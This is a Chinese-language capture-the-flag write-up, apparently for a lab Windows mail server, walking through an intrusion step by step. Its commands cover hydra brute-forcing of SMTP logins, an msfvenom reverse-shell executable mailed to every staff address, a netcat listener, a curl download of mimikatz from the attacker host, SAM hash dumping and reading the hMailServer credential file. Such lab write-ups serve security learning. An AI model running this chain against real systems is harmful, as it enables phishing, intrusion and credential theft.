










<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

先查看题目给出的网站



在Our Team页面发现一些邮箱，根据题目内容可能和题目有关


```
root㉿T1ngWin vim email.txt

fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```

没什么思路了，先查看一下端口吧
nmap扫描发现只有一些邮件服务和一些Winodws服务开放

``` Shell
root@ip-10-10-154-154:~# nmap -T4 -n -sC -sV -Pn -p- 10.10.84.228
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 18:48 GMT
Stats: 0:01:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 52.63% done; ETC: 18:50 (0:00:32 remaining)
Nmap scan report for 10.10.84.228
Host is up (0.00030s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: OK CHILDREN IDLE NAMESPACE IMAP4rev1 RIGHTS=texkA0001 IMAP4 CAPABILITY completed SORT ACL QUOTA
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-13T18:50:40+00:00
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-12T18:45:16
|_Not valid after:  2025-08-14T18:45:16
|_ssl-date: 2025-02-13T18:50:45+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:ED:BB:0E:C7:39 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BRICK-MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 02:ed:bb:0e:c7:39 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-13T18:50:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.61 seconds
```

好像并没有什么用，尝试根据网站创建自定义密码

``` Shell
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

hydra测试邮箱登录密码（nmap扫描得到smtp端口为587）

``` Shell
hydra -L email.txt -P password.txt 10.10.84.228 smtp -s 587 -t 16
```




获得邮箱账号登录密码，尝试利用反向shell创建可执行文件

``` Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.200.215 LPORT=443 -f exe -o shell.exe
```

使用已经获取账户密码的用户发送可执行文件到其他用户

``` Shell
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.84.228:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done 
```

发送成功



同时监听443端口

``` Shell
nc -lnvp 443
```




发现此时的权限是wrohit，尝试获取桌面flag

``` Shell
dir C:\Users\wrohit\Desktop
type C:\Users\wrohit\Desktop\flag.txt
```




接下来尝试查找wrohit用户的密码，此时该用户是位于Administrators下的，所以只需要把mimikatz.exe上传即可，上传至ProgramData文件夹内

``` Shell
curl http://10.10.200.215:8888/mimikatz.exe -o mimikatz.exe
```

利用mimikatz获取哈希密码

``` Shell
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```




在线平台破解哈希即可 https://crackstation.net/



最后任务是找到hMailServer Administrator Dashboard
该密码存在在在`C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`
读取文件即可

``` Shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```




破解哈希



结束





